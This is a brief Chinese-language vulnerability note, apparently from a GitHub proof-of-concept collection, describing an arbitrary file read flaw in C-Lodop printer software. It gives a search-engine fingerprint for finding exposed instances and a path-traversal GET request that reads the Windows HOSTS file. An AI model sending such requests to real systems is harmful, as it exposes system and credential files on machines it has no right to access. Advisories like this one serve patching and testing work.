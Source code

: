 # 

# C-Lodop打印机任意文件读取漏洞

## 漏洞描述

C-Lodop打印机存在任意文件读取漏洞，通过构造特殊URL，可实现读取系统任意文件。

## 网络测绘

```
title="C-Lodop"
```

## 漏洞复现

poc：

```
GET /../../../../../../../../windows/System32/drivers/etc/HOSTS HTTP/1.1
Host: 127.0.0.1
....
```


